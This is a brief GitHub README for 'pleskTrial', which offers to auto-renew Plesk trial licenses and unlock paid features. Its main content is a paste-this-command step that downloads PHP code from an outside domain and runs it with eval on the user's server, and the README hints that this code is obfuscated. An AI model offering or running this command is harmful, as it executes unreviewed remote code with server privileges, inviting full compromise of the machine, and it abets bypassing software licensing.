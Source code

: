 # pleskTrial
Auto-renewing Plesk trial license software.


If you run this code, your Plesk license will be renew automatically.
<code>plesk php -er "eval(file_get_contents('https://olfe.net.tr/plesk/trial/code'));";</code>

But If you get a one time license from https://olfe.net.tr/plesk, You will renew for one time.

We are recommending to run code, It will be remove Trial texts and unlock some features.

You can review the file from Github, or you can decode.

